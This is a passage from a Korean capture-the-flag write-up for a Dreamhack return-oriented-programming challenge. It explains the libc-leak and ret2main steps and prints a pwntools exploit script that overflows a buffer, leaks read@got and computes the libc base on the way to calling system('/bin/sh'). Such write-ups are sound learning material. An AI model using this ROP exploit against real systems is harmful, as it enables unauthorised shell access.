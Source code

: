 - `system = libc base + system offset`

### “/bin/sh” 주소 구하기

- `"/bin/sh" = libc base + "/bin/sh" offset`

### ret2main

- `write(1, read@got, 8)` 의 코드 이후 `main` 의 주소를 넣어서 `RET` 를 조작하면 `main` 함수로 돌아올 수 있음

### 셸 획득

- `system` 함수의 주소와 `"/bin/sh"` 문자열의 주소를 구했기 때문에, `pop rdi; ret` 가젯을 이용하면 `system("/bin/sh")` 를 호출하여 셸을 획득할 수 있음

## 익스플로잇 코드

- 수업 설명 `exploit.py`

```python
from pwn import *

def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))

#context.log_level = 'debug'

p = remote('host3.dreamhack.games', 10263)
#p = process("./basic_rop_x64")
e = ELF("./basic_rop_x64")
#libc = e.libc
libc = ELF("./libc.so.6", checksec=False)
r = ROP(e)

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh = list(libc.search(b"/bin/sh"))[0]

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

# Stage 1
payload:bytes = b'A' * 0x48

# write(1, read@got, 8)
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(8)
payload += p64(write_plt)

# return to main
payload += p64(main)

p.send(payload)

p.recvuntil(b'A' * 0x40)
read = u64(p.recvn(6)+b'\x00'*2)
lb = read - read_offset
system = lb + system_offset
binsh = sh + lb
```